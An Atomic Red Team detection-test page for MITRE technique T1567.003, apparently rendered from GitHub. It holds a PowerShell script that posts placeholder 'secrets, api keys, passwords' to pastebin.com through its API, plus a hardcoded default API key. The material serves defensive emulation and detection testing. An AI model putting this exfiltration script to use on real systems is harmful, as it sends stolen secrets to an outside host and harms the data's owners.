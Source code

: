 ```yaml
---
tags: [T1567_003, atomic_test]
filename: "[[T1567.003|T1567.003 - Exfiltration Over Web Service: Exfiltration to Text Storage Sites]]"
---
```

# T1567.003 - Exfiltration Over Web Service: Exfiltration to Text Storage Sites

## Atomic Test #1 - Exfiltrate data with HTTP POST to text storage sites - pastebin.com (Windows)
This test uses HTTP POST to exfiltrate data to a remote text storage site. (pastebin)                             
See https://web.archive.org/web/20201107203304/https://www.echosec.net/blog/what-is-pastebin-and-why-do-hackers-love-it

**Supported Platforms:** Windows


**auto_generated_guid:** c2e8ab6e-431e-460a-a2aa-3bc6a32022e3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| api_key | Pastebin API key | string | 6nxrBm7UIJuaEuPOkH5Z8I7SvCLN3OP0|


#### Attack Commands: Run with `powershell`! 


```powershell
$apiKey = "#{api_key}"
$content = "secrets, api keys, passwords..."
$url = "https://pastebin.com/api/api_post.php"
$postData = @{
  api_dev_key   = $apiKey
  api_option    = "paste"
  api_paste_code = $content
}
$response = Invoke-RestMethod -Uri $url -Method Post -Body $postData
Write-Host "Your paste URL: $response"
```






<br/>
